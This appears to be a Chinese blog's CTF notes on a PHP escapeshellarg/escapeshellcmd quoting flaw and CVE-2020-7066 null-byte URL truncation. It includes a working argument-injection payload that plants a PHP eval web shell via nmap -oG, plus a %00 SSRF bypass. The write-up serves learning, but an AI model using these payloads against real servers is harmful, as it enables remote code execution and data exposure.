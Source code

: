http://na0hblog.top/



### escapeshellarg+escapeshellcmd造成的漏洞

- Escapeshellarg：把字符串转码为可以在 shell 命令里使用的参数
  Escapeshellcmd：对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义

- (该漏洞实际就是两次转义后的闭合出现了问题，没考虑到单引号
  不过现在无论哪个版本好像都被修复了。。)

> 传入的参数是：`172.17.0.2' -v -d a=1`
> **escapeshellarg**处理后：
> `'172.17.0.2'\'' -v -d a=1'`，即先对`单引号'`转义，再用单引号将左右两部分括起来从而起到连接的作用
> **escapeshellcmd**处理后：
> `'172.17.0.2'\\'' -v -d a=1\'`，这里escapeshellcmd对`\`以及`最后那个不配对儿的引号`进行了转义
>
> 最终 `'172.17.0.2'\\'' -v -d a=1\'`就相当于`172.17.0.2\ -v -d a=1'`
> 中间的`\\`被解释为`\`而不是转义字符，故`\后面的'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。
> 则curl 172.17.0.2\ -v -d a=1'，即为向172.17.0.2\发起请求，POST 数据为a=1'

在给出做题时的例子：

> [BUUCTF 2018]Online Tool：
>
> (ps：nmap -oG 可将命令写入文件；命令含闭合引号无影响)
>
> 首先要明确会被\转义的符号：`\、?、<、>、(、)、[、]、;、不配对的'、''`
> 1、`传入' <?php eval($_POST["a"]);?> -oG hhh.php`
> => ` ''\'' <?php eval($_POST["a"]);?> -oG hhh.php' `
> => ` ''\'' \<\?php eval\($_POST\["a"\]\)\;\?\> -oG hhh.php \'`
> 此时文件名为`hhh.php'`
>
> 2、传入`' <?php eval($_POST["a"]);?> -oG hhh.php '`
> =>`  ''\'' <?php eval($_POST["a"]);?> -oG hhh.php '\'''`
> => ` ''\\'' \<\?php eval\($_POST\["a"\]\)\;\?\> -oG hhh.php '\\''' 	`
> （这里的'和文件名中间必须有空格，否则就会生成hhh.php\\这样的文件）
>
> 故最终payload：`' <?php eval($_POST["a"]);?> -oG hhh.php '`



## CVE

### cve-2020-7066

- 描述：在PHP版本7.2.x低于7.2.29；7.3.x低于7.3.16；7.4.x低于7.4.4，而使用get_headers（）与用户提供的网址，如果URL包含零（\0）字符，URL将被默默地截断在它。这可能会导致某些软件对get_headers的目标做出错误的假设，并可能向错误的服务器发送一些信息

- get_headers() 返回一个数组，包含有服务器响应一个 HTTP 请求所发送的标头

- 在该漏洞中get_headers() 会静默地截断它使用的URL中空字节之后的任何内容。这个在网页里可以结合SSRF使用，可以用来绕过对url尾部的检测，并且访问我们想要访问的地址，得到一些敏感的标头信息，造成信息泄露。

  > eg：[GKCTF2020]cve版签到
  >
  > 只允许访问后缀为.ctfhub.com的网页；
  >
  > ![](https://i.loli.net/2021/03/11/vUwPecRdzS1B29M.png)
  > 这时就可以构造url%00.ctfhub.com绕过检测，从而访问url
  >
  > ![127.0.0.1%00.cth.com](https://i.loli.net/2021/03/11/M6XZCi7JDdArjnI.png)
  >
  > 再根据提示访问`127.0.0.123%00.ctfhub.com`即可获取flag
